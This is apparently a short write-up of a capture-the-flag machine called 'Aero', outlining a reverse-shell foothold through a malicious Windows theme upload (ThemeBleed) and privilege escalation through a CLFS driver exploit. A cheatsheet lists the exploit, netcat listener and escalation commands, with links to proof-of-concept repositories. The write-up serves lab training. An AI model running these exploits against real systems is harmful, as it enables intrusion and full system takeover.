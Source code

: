 # Aero \[Medium]

## Report

HTTP website accepts file upload for Windows themes, CVE-2023-xxx 'Themebleed' performs RCE from .theme or .themepack files. A pdf file in Documents mentions another CVE which affects CLFS (Common Log File System) where we can perform code execution (Buffer Overflow) and spawn a cmd shell to become root

To perform the themebleed exploit, we need to compile a DLL file via **Visual Studio** with a function 'VerifyThemeVersion' calling our revshell function. We had a git repo doing all that for us but this was the intention of the box so should learn that

The CLFS exploit also expects us to recompile the code after injecting our payload (using Visual Studio or Linux your call)&#x20;

## Cheatsheet

```
python3 themebleed.py -r HOST -p 4711
nc -lvnp 4711
Upload .theme file on website

clfs_eop.exe 'cmd.exe'
```

## Loot

{% embed url="https://github.com/exploits-forsale/themebleed" %}

{% embed url="https://github.com/Jnnshschl/CVE-2023-38146/tree/main" %}

{% embed url="https://github.com/fortra/CVE-2023-28252" %}

{% embed url="https://github.com/bkstephen/Compiled-PoC-Binary-For-CVE-2023-28252" %}

{% embed url="https://gitlab.com/0xdf/ctfscripts/-/tree/master/rev_shell_dll?ref_type=heads" %}

